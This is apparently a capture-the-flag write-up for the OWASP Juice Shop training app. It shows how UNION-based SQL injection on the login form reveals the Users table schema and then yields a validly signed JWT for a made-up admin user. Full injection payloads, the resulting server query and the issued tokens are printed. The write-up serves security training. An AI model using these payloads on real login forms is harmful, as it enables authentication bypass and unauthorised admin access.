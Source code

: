 # Bonus Challenge: Generating a JWT Token for a Non-Existent User With Admin Privileges
*(It's not listed in the scoreboard as of 2019/08/21)*

## Description
I was attempting to complete the [Admin Registration (L3)](../../level-3#admin-registration) challenge, and while attempting that, I discovered a way to generate a JSON Web Token (JWT) for a non-existent user that had admin privileges.

## How?
### 1. Starting with SQL Injection
I was experimenting with SQL injection at the login page of the OWASP Juice Shop, and was looking at trying to log in with my user, but instead of matching my user info that was in the database, I would copy most of that, and change the `isAdmin` flag. The only way I could think to do this was using a `UNION` or `UNION ALL` in my SQL injection.

Early on, I ran into a lot of issues with the columns from the `UNION` not matching up, like below. I don't know the schema at this point (and I'm intentionally not looking it up because I'm trying to emulate an attacker).

<img src="images/nonexistent-user-admin-token-sql-union-error.png">

### 2. Getting the User Table Schema
I found that there was 2 ways get the schema. One of the explicitly tells you the schema, and the other you can infer the schema from.

#### 2a. Explicit: Get the Schema via SQL Injection
So, at this point, I needed to find how to get the schema. The way I initially did it was looking at if I could get the endpoint to output the schema as one of the fields. Since the errors I got were from SQLite, a few quick google searches told me how to [get the columns for a table](https://stackoverflow.com/a/54962853), and [concat them into a single value](https://stackoverflow.com/a/3926380). So, I started with this:

```
' UNION ALL SELECT * FROM (SELECT (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('Users')), null)--
```

For the one above, I got the column mismatch again, but the syntax was valid and no issues with functions not existing. I kept adding `null`s one at time to the end of it until that didn't happen. Eventually, I got up to 11 `null`s (in addition to the subquery `SELECT`).

**Initial Injection Payload - Column Names**
```
' UNION ALL SELECT * FROM (SELECT (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('Users')), null, null, null, null, null, null, null, null, null, null, null)--
```

Once I clicked the submit button, I got presenting with a 2FA page. Progress!

<img src="images/nonexistent-user-admin-token-2fa.png">

From there I looked at the token that I got back in the requests, and it was another JWT token.

**2FA JWT Token - Column Names**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJpZCx1c2VybmFtZSxlbWFpbCxwYXNzd29yZCxpc0FkbWluLGxhc3RMb2dpbklwLHByb2ZpbGVJbWFnZSx0b3RwU2VjcmV0LGlzQWN0aXZlLGNyZWF0ZWRBdCx1cGRhdGVkQXQsZGVsZXRlZEF0IiwidHlwZSI6InBhc3N3b3JkX3ZhbGlkX25lZWRzX3NlY29uZF9mYWN0b3JfdG9rZW4iLCJpYXQiOjE1NjU5Njk1ODEsImV4cCI6MTU2NTk4NzU4MX0.FSDMBOs2C20Eqb-c_PghsbQ7dUiHpwQe5qrLsllp2W41Wg6MVpFXPTMY0gB0HGFI4Deeun6Iw7B5a2yy5Pb339wXfZLCHisXpmfS08i2pxsd_N70wvzqUZtrjALvardSB3_FCh9St1c5oAQOuqlq7EDGvFymFtiPdNz8-4DR6BE
```

Once I decoded it, I found the schema below.

<img src="images/nonexistent-user-admin-token-column-name-token.png">

Neat. Though I realized that the schema it looked EXACTLY like the user data in the a normal JWT token from this application, which brings me to the other way to figure out the schema.

#### 2b. Inference: Look at a Normal JWT Token
In the [Password Strength (L2)](../../level-2#password-strength) challenge, I found the admin account's password in the JWT token, and this is what the JWT token looks like when it is decoded.

**Normal JWT Token for a Logged-In User**
<img src="../../level-2/images/2-admin-password-jwt.png">

Hey, it's literally all of the table fields as the SQL injection way in 2a. Let's move on.

### 3. Generating the Non-Existent User's Token with Admin Privileges

So, at this point, I took the fields in the schema list, and filled them **in the same order** so the `UNION` would match up with the column list from `SELECT * FROM Users` login SQL query. You also need to switch `true` and `false` values to 1 and 0, respectively (but maybe that's a relic from my days using MSSQL). After you update the `isAdmin` value to `1` (or `true`), it should look like this:

**Injection Payload - Generate Admin Token**
```
' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'someone@something.io' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '172.16.189.1' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

And here is the SQL query that the server will run (formatted and prettified)
```sql
SELECT * 
FROM  users 
WHERE  email = '' 

UNION ALL

SELECT * 
FROM ( 
  SELECT 15                          AS 'id', 
  ''                                 AS 'username', 
  'someone@something.io'             AS 'email', 
  'b4448762fc877c2d57b2c9723118d264' AS 'password', 
  1                                  AS 'isAdmin',
  '172.16.189.1'                     AS 'lastLoginIp' , 
  'default.svg'                      AS 'profileImage', 
  ''                                 AS 'totpSecret', 
  1                                  AS 'isActive', 
  '2019-08-16 14:14:41.644 +00:00'   AS 'createdAt', 
  '2019-08-16 14:33:41.930 +00:00'   AS 'updatedAt', 
  NULL                               AS 'deletedAt'
)
--AND password = 'b4448762fc877c2d57b2c9723118d264' AND deletedAt IS NULL 
```

My injection payload worked! I got to the main search page and I was logged in as my *faux* user. My user did exist at this point, but this all works even if the user does not exist. I took at look at my JWT token in my cookie / application settings.

**Non-Existent User JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJzb21lb25lQHNvbWV0aGluZy5pbyIsInBhc3N3b3JkIjoiYjQ0NDg3NjJmYzg3N2MyZDU3YjJjOTcyMzExOGQyNjQiLCJpc0FkbWluIjp0cnVlLCJsYXN0TG9naW5JcCI6IjE3Mi4xNi4xODkuMSIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDE5LTA4LTE2IDE0OjE0OjQxLjY0NCArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDE5LTA4LTE2IDE0OjMzOjQxLjkzMCArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE1NjU5NzE5NDcsImV4cCI6MTU2NTk4OTk0N30.OhfHXsnCteRB-LSuTxucIeV59paLJs7gzjqi5DMm0-84UIuvmIXdzChDsLGsfgzYXSxkTwtyzWpla8z-xAsxVnKLiNUr7noQde6yklK8Pw1YXLKFcz2Olga7Yra5ezfIWv3-OxKTUxZgdQsoi7kdOl2wWtH8bJxUXsGUTStkre0
```

Once you decode that token, it looks like this:

<img src="images/nonexistent-user-admin-token-decoded.png">

Boom! I'm an admin that doesn't exist! To finish this off, I went to the administration page to find out if this worked, and it does! Yay!

<img src="images/nonexistent-user-admin-token-admin-page.png">

### Differences from the Current JWT Challenges

There are 2 different JWT challenges. They both mention that the token should be unsigned or almost properly signed, but I actually have a properly signed JWT token now. Hmm... Let's try using this method and see if we complete the challenges.

> **JWT Issues Tier 1 (T5)**
> Forge an essentially unsigned JWT token that impersonates the (non-existing) user jwtn3d@juice-sh.op.

```
' UNION SELECT * FROM (SELECT 1001 as 'id', '' as 'username', 'jwtn3d@juice-sh.op' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '0.0.0.0' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

**jwtn3d@juice-sh.op JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTAwMSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6Imp3dG4zZEBqdWljZS1zaC5vcCIsInBhc3N3b3JkIjoiYjQ0NDg3NjJmYzg3N2MyZDU3YjJjOTcyMzExOGQyNjQiLCJpc0FkbWluIjp0cnVlLCJsYXN0TG9naW5JcCI6IjAuMC4wLjAiLCJwcm9maWxlSW1hZ2UiOiJkZWZhdWx0LnN2ZyIsInRvdHBTZWNyZXQiOiIiLCJpc0FjdGl2ZSI6dHJ1ZSwiY3JlYXRlZEF0IjoiMjAxOS0wOC0xNiAxNDoxNDo0MS42NDQgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAxOS0wOC0xNiAxNDozMzo0MS45MzAgKzAwOjAwIiwiZGVsZXRlZEF0IjpudWxsfSwiaWF0IjoxNTY1OTc3NTEzLCJleHAiOjE1NjU5OTU1MTN9.yIlgAEaeL7sgF-rjoU1wTmZMmBpz1Zr2KIl5wbkcDCkRhi-Tc9H-FNBocaOMGYpIwmoMUfLpCaWxlC_qcDZLlvGRArdS0-svgOKwUujxLTrJhbqQIYsTmEkTMruNFYhRgrCijFhnYsOyqqWDSlW_n1NyRUYtMgtAMIezVl4UAuE
```
Challenge not complete even with the above token!

> **JWT Issues Tier 2 (T6)**
> Forge an almost properly RSA-signed JWT token that impersonates the (non-existing) user rsa_lord@juice-sh.op.

**Injection Payload**
```
' UNION SELECT * FROM (SELECT 999 as 'id', '' as 'username', 'rsa_lord@juice-sh.op' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '0.0.0.0' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

**rsa_lord@juice-sh.op JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6OTk5LCJ1c2VybmFtZSI6IiIsImVtYWlsIjoicnNhX2xvcmRAanVpY2Utc2gub3AiLCJwYXNzd29yZCI6ImI0NDQ4NzYyZmM4NzdjMmQ1N2IyYzk3MjMxMThkMjY0IiwiaXNBZG1pbiI6dHJ1ZSwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMTktMDgtMTYgMTQ6MTQ6NDEuNjQ0ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMTktMDgtMTYgMTQ6MzM6NDEuOTMwICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTU2NTk3NzI3MywiZXhwIjoxNTY1OTk1MjczfQ.uOxQ5gPiTT-MCmGsgOE0NodOG77UqSRizHbsD-tvjt8X73V8SDkXfxFRQ4kjf3O1iyzK2BmWsrMk66GILz7HT5nNvEhdGHT9nTA5nBjXncCEy13xnNAwfi8qyJO8SMLCyCnMrx4RtC0X3VbY6kR2aJ7F5FL6q8V6Qp_4SO2SLeo
```
Challenge not complete even with the above token!

So, its doesn't match either of these challenges, which makes sense. Yay! I found a way to get a legit token for a non-existent user. 

